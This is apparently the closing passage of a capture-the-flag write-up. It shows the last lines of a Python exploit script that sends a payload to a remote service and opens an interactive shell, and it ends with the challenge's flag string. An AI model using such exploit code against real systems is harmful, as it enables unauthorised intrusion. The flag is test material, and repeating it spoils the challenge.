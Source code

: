 ```py
    print(payload)
    print()

    conn.send(payload)
    conn.interactive()

exploit(remote(host, port))
```

With our remote shell, we can now print the flag that is located in the web root's parent directory.

**Flag:** `bh{fu1l_pr0t3ct1on_full_pwn}`
